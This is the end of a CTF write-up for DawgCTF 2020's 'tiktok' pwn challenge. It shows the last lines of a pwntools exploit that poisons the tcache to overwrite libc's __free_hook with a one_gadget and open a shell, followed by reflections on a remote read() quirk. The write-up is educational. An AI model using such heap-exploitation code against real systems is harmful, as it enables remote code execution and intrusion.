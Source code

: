 ```python

play_overflow("4", "946", "A"*32 + p64(free_hook_libc))
play_overflow("5", "946", "omgplswork")
play_overflow("6", "946", p64(one_gadget_libc) + "\x00"*100)
delete("4", 1)
sh.recvuntil("Removing: ") #Just to make output nicer
sh.interactive()
```

## Epilogue

When I first gotten a working exploit, my initial tcache poison was much longer than the one in the final state, because I felt like I had to poison all of the possible tcache bins. This resulted in my exploit working locally (on the ubuntu 18.04 docker container), but not remotely. (which wtf...it's a docker container....the purpose of these is so that if it works on my system it should work on yours...)

I needed a lot of nudges from trashcanna to figure out why that's the case, and eventually learned that reason this fails remotely has to do with how the `read()` call works over the network. Apparently, raw `read()` calls will stop reading prematurely after reading in around 0x600 bytes, which still to me makes no sense as stdin buffering was disabled at the start. Anyways, as [an enlightened security professional had tweeted](https://twitter.com/IanColdwater/status/1248633641468649472), since "the internet or linux or computers are made of sand and duct tape and popsicle sticks", we shouldn't really expect them to handle everything properly. Ah well.

After we change the final exploit to attack the remote server instead, our journey is finally over, as we get a shell and get the flag!
![](https://i.imgur.com/dPoQf6O.png)

This was an incredible journey. Thank you so much trashcanna and the UMBC Cyber Dawgs for writing this challenge and hosting this CTF! 

I think what I like most about this challenge is that we had to exploit multiple vulnerabilities to be able to get a shell. That's not seen very much in CTFs. Another thing I love is how realistic these vulnerability mistakes are. If I were to write a similar app, I'm pretty sure I'd make the same mistakes as well, which is another thing that doesn't show up very often in CTFs. All of the restrictions that increase the difficulty of exploitation and force us to exploit efficiently are incredibly realistic as well, which, again, many pwn challenges lack in other CTFs. Everything else about this challenge was just *perfection*. All these puts this challenge easily into my most favorite pwnable I have done, and I anticipate will do for a very, very long time.

Definitely looking forward to next year for sure :)

## Other writeups:

* Official writeup: https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/tiktok/WRITEUP.md
